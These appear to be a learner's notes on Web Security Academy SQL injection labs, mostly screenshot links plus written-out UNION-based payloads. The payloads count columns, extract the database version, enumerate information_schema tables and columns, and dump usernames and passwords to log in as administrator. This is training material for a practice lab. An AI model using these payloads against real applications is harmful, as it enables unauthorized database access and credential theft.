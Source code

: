 # Lab:  vulnerability in WHERE clause allowing retrieval of hidden data

![[Pasted image 20230215205601.png]]
![[Pasted image 20230215205623.png]]
#  vulnerability allowing login bypass

![[Pasted image 20230215210142.png]]
![[Pasted image 20230215210150.png]]

#  UNION attack, determining the number of columns returned by the query

![[Pasted image 20230221224752.png]]
`https://0aa9004f04a48654c00b45e500ab0085.web-security-academy.net/filter?category=%27%20UNION%20SELECT%20null,null,null--%20-`

#  UNION attack, finding a column containing text
`'+UNION+SELECT+null,version(),null--+-`
![[Pasted image 20230221225619.png]]
column 2 is vulnerable 

![[Pasted image 20230221234811.png]]
![[Pasted image 20230221234843.png]]

#  UNION attack, retrieving data from other tables
`'+UNION+SELECT+null,null--+-`
2 columns
![[Pasted image 20230221235030.png]]
![[Pasted image 20230221235158.png]]
column 1 and 2 shows results on page
`' UNION SELECT null,table_name FROM information_schema.tables-- -`
![[Pasted image 20230221235245.png]]
`' UNION SELECT null,column_name FROM information_schema.columns WHERE table_name='users'-- -`
![[Pasted image 20230221235535.png]]
`'+UNION+SELECT+username,password+FROM+users--+-`
![[Pasted image 20230222000605.png]]
login as administrator to solve the challenge
